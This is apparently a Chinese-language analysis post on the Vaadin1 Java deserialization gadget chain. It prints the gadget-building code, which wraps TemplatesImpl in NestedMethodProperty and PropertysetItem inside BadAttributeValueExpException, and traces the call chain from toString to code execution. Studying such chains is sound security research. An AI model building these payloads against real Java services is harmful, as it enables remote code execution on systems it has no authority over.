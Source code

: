 # Vaadin1

Vaadin 是一个在Java后端快速开发web应用程序的平台。用 Java 或 TypeScript 构建可伸缩的 UI，并使用集成的工具、组件和设计系统来更快地迭代、更好地设计和简化开发过程。

## exp

```java
 @Override
    public Object getObject (String command) throws Exception
    {
        Object templ = Gadgets.createTemplatesImpl (command);
        PropertysetItem pItem = new PropertysetItem ();

        NestedMethodProperty<Object> nmprop = new NestedMethodProperty<Object> (templ, "outputProperties");
        pItem.addItemProperty ("outputProperties", nmprop);
        BadAttributeValueExpException b = new BadAttributeValueExpException ("");
        Reflections.setFieldValue (b, "val", pItem);
        return b;
    }
```

## 分析

### NestedMethodProperty

可以看出来是基于嵌套访问器的属性。大概看了一下代码，这个就是存储一个getter方法

```java
new NestedMethodProperty<Object> (templ, "outputProperties");
```

这个就是存储了一个templ#outputProperties的getter方法。


 ![image-20220513094441951](https://img.dem0dem0.top/images/image-20220513094441951.png)

 只要调用他的getvalue方法就可以触发

![image-20220513095101256](https://img.dem0dem0.top/images/image-20220513095101256.png)

### PropertysetItem

触发类是 `com.vaadin.data.util.PropertysetItem` ，这个类用来存储 Property 属性值，为其映射一个 id 对象。数据存放在成员变量 map 中，想要获取相应属性时，则调用 `getItemProperty` 方法在 map 中获取。

![image-20220513095158013](https://img.dem0dem0.top/images/image-20220513095158013.png)

### 链子


![image-20220513094304692](https://img.dem0dem0.top/images/image-20220513094304692.png)

toString起手==>PropertysetItem#toString ==> NestedMethodProperty#getvalue ==> template


